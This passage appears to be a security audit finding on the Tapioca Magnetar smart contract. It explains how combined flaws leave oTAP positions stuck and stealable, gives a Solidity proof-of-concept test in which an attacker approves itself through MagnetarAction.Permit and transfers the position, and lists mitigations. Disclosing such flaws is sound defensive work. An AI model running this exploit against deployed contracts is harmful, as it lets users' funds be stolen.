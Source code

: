 The contract is not in itself supposed to hold any tokens; in itself these issues are not that severe by themselves. However, these issues combined allows an attacker to steal the position completely. Since the first one makes the position be stuck in `Magnetar` and the two last ones makes it not actually stuck, but retrievable by anyone.

### Impact

If a user uses `MagnetarAction.TapToken` to create their position they can have their position and/or rewards stolen.

### Proof of Concept

Test in `tap-token/test/Magnetar.t.sol`, builds on the test described in `MagnetarAction.TapToken` integration will leave tokens stuck in `Magnetar` contract:

```solidity
    address attacker = makeAddr("Attacker");

    function testStealTokensStuckInMagnetar() public {
        testMagnetarParticipateOTAPStuckInMagnetar();

        MagnetarCall memory approve = MagnetarCall({
            id: MagnetarAction.Permit,
            target: address(oTAP),
            value: 0,
            allowFailure: false,
            call: abi.encodeWithSelector(IERC721.setApprovalForAll.selector, address(attacker), true)
        });

        MagnetarCall[] memory calls = new MagnetarCall[](1);
        calls[0] = approve;

        vm.startPrank(attacker);
        magnetar.burst(calls);
        oTAP.transferFrom(address(magnetar), address(attacker), 1);
        vm.stopPrank();

        assertEq(oTAP.ownerOf(1),address(attacker));
    }
```

Full test with setup can be found [here](https://gist.github.com/0ximmeas/99606148ff878591c20d5124cab0c617).

### Recommended Mitigation Steps

Consider implementing the mitigations described in the three mentioned referenced issues:

- Adding the ability for the caller to declare a receiver in `TapiocaOptionBroker::participate` and `exerciseOption`. Similar to how it's done in `TapiocaOptionLiquidityProvision::lock`.
- Rethinking how `MagnetarAction.Permit` should work. As there is support in modules for a lot of the calls it is used for perhaps it is unnecessary to have.
- Removing the general `MagnetarAction.OFT` call. Most of the interactions with the contracts in the Tapioca ecosystem is already handled in the Magnetar module system which handles approvals and transfers.
